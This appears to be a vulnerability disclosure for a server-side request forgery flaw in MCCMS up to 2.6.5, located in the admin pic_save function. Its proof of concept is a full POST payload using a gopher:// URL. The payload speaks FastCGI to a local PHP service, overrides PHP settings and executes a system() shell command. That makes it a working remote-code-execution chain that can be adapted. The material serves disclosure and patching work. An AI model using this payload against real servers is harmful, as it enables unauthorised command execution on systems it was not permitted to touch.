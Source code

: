 # MCCMS is vulnerable to Server-side request forgery (SSRF)
## Description
    MCCMS <= 2.6.5 is vulnerable to Server-side request forgery (SSRF)
## Vendor Homepage
    https://github.com/chshcms/mccms/

## Author
    HuBenLab
## Proof of Concept
The problem lies in the pic_save function in `sys/apps/controllers/admin/Comic.php`, which is utilized to cause ssrf by controlling `$pic`.

![image-20230605135650589](./img/image-20230605135650589.png)

payload:

```
http://172.16.5.221:84/admin.php/Comic/pic_save

post：
pic=gopher://127.0.0.1:7400/_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%252A%2502%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH72%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%253DSCRIPT_FILENAME%2Fwww%2Fadmin%2Fwww.mancheng.com_84%2Fwwwroot%2Fmccms-master%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500H%2504%2500%253C%253Fphp%2520system%2528%2527touch%2520%2Ftmp%2F123123123%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500&mid=1&tb=1
```

![image-20230605140512058](./img/image-20230605140512058.png)